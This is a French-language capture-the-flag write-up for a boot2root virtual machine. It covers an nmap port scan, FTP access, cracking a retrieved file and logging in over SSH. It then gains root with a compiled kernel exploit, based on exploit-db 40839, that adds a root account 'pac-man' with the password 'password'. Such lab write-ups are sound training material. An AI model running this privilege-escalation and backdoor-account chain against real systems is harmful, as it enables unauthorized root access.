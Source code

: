 # Writeup2

Nous avons utilisé docker et squashfs-tools pour extraire le file system depuis l'iso.<br>
`./setup.sh`<br>
`docker logs -f boot2root`

### Get open port

Pour récupérer l'ip de la machine il faut lancer le script `./ip_machine [VM_name]`.<br>
Grâce à nmap:  `nmap -p- $(./ip_machine [VM_name])` nous pouvons voir les ports ouverts:

- 21/tcp  open  ftp
- 22/tcp  open  ssh
- 80/tcp  open  http
- 143/tcp open  imap
- 443/tcp open  https
- 993/tcp open  imaps

### Connection FTP

Nous pouvons maintenant ce connecter en `ftp` avec ces identifiants.<br>
`ftp $(./ip_machine [VM_name])` et mettre les identifiants.<br>
Nous pouvons voir 2 fichiers `README` et `fun`.<br>

### Crack fun :D

Nous allons pouvoir récupérer le fichier `fun` : `get fun`.<br>
Lancer la commande `tar xf fun`.<br>
Maintenant nous pouvons lancer la commande `node crackFun ft_fun`.<br>

### Connection to SSH 

user: `laurie`<br>
mdp: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

### Obtention de droits sudo

Copier le fichier: `breach.c`.<br>
avec: `scp breach.c laurie@$(../../ip_machine boot2root):`<br>
Compiler avec la commande: `gcc -pthread breach.c -o breach -lcrypt`.<br>
lancer l'exécutable avec: `./breach`.<br>
Un user `pac-man` à été ajouté avec le mot de passe `password`.<br>
Il est accessible avec:<br>
`su pac-man`<br>
`password`<br>
Réalise sur la base de: `https://www.exploit-db.com/exploits/40839`

### WE ARE ROOT

```
# id
uid=0(pac-man) gid=0(root) groups=0(root)
```

![I am root](./ress/root2.gif)